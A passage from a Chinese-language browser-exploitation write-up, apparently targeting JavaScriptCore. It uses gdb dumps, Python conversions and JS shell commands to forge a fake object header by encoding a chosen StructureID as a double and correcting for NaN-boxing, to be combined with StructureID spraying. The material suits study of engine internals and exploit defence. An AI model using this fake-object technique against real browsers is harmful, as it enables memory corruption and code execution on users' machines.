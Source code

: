 而且除了`StructureID`之外，其它的字段数据并未发生变化，那就可以在第一个属性填充`0x0100160000001000`
```shell
(gdb) x/gx 0x7fffaf4b00c0
0x7fffaf4b00c0:	0x0100160000000127
(gdb) x/gx 0x7fffaf4b0140
0x7fffaf4b0140:	0x0100160000000128
(gdb) x/gx 0x7fffaf4b01c0
0x7fffaf4b01c0:	0x0100160000000129
(gdb) x/gx 0x7fffaf4b0240
0x7fffaf4b0240:	0x010016000000012a
(gdb) x/gx 0x7fffaf4b02c0
0x7fffaf4b02c0:	0x010016000000012b
```

转换数据
```python
>>> struct.unpack("d", struct.pack("Q", 0x0100160000001000))[0]
7.330283319472755e-304
```

把这个数据写到第一个属性
```shell
>>> obj = {}
>>> obj.x = 7.330283319472755e-304
>>> obj.y = 2
>>> obj.z = 3
>>> delete obj.y
>>> describe(obj)
Object: 0x7fffaf4b0080 with butterfly (nil) (Structure 0x7fffaf470460:[Object, {x:0, z:2}, NonArray, Proto:0x7fffaf4b4000, UncacheableDictionary, Leaf]), StructureID: 297

(gdb) x/8gx 0x7fffaf4b0080
0x7fffaf4b0080:	0x0100160000000129	0x0000000000000000
0x7fffaf4b0090:	0x0101160000001000	0x0000000000000000
0x7fffaf4b00a0:	0xffff000000000003	0x0000000000000000
0x7fffaf4b00b0:	0x0000000000000000	0x0000000000000000
```

但我们发现第一个属性被加上了`0x0001000000000000`，这是用于表示浮点数的标志位
```shell
* The scheme we have implemented encodes double precision values by performing a
* 64-bit integer addition of the value 2^48 to the number. After this manipulation
* no encoded double-precision value will begin with the pattern 0x0000 or 0xFFFF.
* Values must be decoded by reversing this operation before subsequent floating point
* operations may be peformed.
```

那我们只需要减去这个值再编码即可
```python
>>> struct.unpack("d", struct.pack("Q", 0x0100160000001000 - 0x0001000000000000))[0]
7.082855106403439e-304
```

再来一遍，效果很好，现在只需要配合上面的Spray分配`StructureID`即可完成合法对象的构造
```shell
>>> obj = {}
>>> obj.x = 7.082855106403439e-304
>>> obj.y = 2
>>> obj.z = 3
>>> delete obj.y
>>> describe(obj)
Object: 0x7fffaf4b0080 with butterfly (nil) (Structure 0x7fffaf470690:[Object, {x:0, z:2}, NonArray, Proto:0x7fffaf4b4000, UncacheableDictionary, Leaf]), StructureID: 302

(gdb) x/8gx 0x7fffaf4b0080
0x7fffaf4b0080:	0x010016000000012e	0x0000000000000000
0x7fffaf4b0090:	0x0100160000001000	0x0000000000000000
0x7fffaf4b00a0:	0xffff000000000003	0x0000000000000000
```